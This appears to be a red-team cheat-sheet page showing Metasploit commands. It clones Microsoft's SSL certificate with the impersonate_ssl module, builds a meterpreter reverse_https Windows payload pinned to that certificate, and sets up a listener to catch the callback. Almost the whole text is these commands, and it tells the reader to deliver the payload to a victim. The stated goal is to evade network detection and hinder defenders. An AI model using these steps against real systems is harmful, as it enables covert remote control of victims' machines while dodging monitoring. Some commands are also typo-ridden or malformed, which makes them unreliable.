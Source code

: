 # p - Meterpreter SSL Certificate Impersonation and Detection Evasion

We can us the "impersonate\_ssl" metasploit module for this.

{% code overflow="wrap" lineNumbers="true" %}
```bash
msf > use auxiliary/gather/impersonate_ssl # This module will request a copy of a SSL certificate from a side of our choosing, So we will create a self-signed version of the certificate and private key we can then use to configure our payload and handler with, this will allow us to impersonate the SSL certificate information and can certainly help evading over the wire hueristics.
msf > set RHOSTS www.microsoft.com # we will impersonate this cert.
# Metasploit will create a public private key pair for the new certificate a ".pem" and ".crt" file which we will use to configure our payload and handler.

# we can generate a payloaad directly from msfconsole instead of using msfvenom.
msf > use payload/windows/x64/meterpreter/reverse_https
msf > set LHOST, LPORT
msf > set handlersslcert <path_to_the_generated_.pem_certificate>
msf > set stagerverifysslcert true # this makes it more difficult for defenders to intercept our ssl traffic by enabling TLS pinning.
msf > generate -t exe -f ssl_payload.exe # generate the ssl payload using the handler ssl_cert.

# setup a listener
msf > use multi/handler
msf > set LHOST, LPORT
msf > set handlersslcert <path_to_the_generated_.pem_certificate>
msf > set stagerverifysslcert true
msf > set payload/windows/x64/meterpreter/reverse_https
msf > run
```
{% endcode %}

Transfer the generated payload to the victim, then run. When you check wireshark  you should see that we have successfully impersonated the Microsoft ssl cert information.

